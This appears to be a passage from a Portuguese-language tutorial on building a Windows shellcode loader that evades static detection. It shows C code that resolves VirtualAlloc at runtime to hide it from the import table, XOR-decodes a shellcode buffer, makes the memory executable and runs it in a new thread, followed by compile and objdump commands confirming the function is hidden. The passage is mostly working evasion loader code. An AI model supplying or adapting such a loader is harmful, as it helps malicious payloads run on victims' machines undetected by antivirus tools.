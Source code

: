 ```cpp
int main(void) {
    DWORD oldProtect = 0;
    BOOL rx;
    HANDLE thread;

    pVA = GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAlloc");

    void *exec_mem = pVA(0, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    XOR((char *) shellcode, shellcode_size, xor_key, sizeof(xor_key));

    RtlMoveMemory(exec_mem, shellcode, shellcode_size);

    rx = VirtualProtect(exec_mem, shellcode_size, PAGE_EXECUTE_READ, &oldProtect);

    if ( rx != 0 ) {
            thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
            WaitForSingleObject(thread, -1);
    }

    return 0;
}
```

Podemos compilar:

```bash
$ i686-w64-mingw32-gcc  shell.c -o test.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc >/dev/null 2>&1
```

E checar a tabela de importação de endereços novamente:

```bash
$ objdump -x -D test.exe | less
```

Desta vez, a função `VirtualAlloc` não está mais presente na *import address table*.
